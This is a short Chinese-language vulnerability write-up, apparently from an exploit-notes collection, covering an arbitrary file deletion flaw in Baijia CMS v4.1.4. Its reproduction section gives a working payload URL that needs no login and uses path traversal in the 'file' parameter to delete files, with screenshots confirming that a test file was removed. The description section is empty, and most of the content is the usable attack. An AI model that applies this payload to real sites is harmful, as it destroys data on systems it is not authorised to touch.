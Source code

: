 百家cms v4.1.4 任意文件删除漏洞
===============================

一、漏洞简介
------------

二、漏洞影响
------------

百家cms v4.1.4

三、复现过程
------------

    # payload
    # 不需要后台权限
    # 只能删除文件，不能删除文件夹

    http://www.0-sec.org/index.php?mod=mobile&act=uploader&op=post&do=util&m=eshop&op=remove&file=../qwe.txt

设置里需要选择本地，否则删除的不是本地文件

![](./resource/百家cmsv4.1.4任意文件删除漏洞/media/rId24.png)

先在根目录下创建qwe.txt作为测试文件

![](./resource/百家cmsv4.1.4任意文件删除漏洞/media/rId25.png)

访问payload

![](./resource/百家cmsv4.1.4任意文件删除漏洞/media/rId26.png)

查看文件，已经被删除

![](./resource/百家cmsv4.1.4任意文件删除漏洞/media/rId27.png)

参考链接
--------

> https://xz.aliyun.com/t/7542
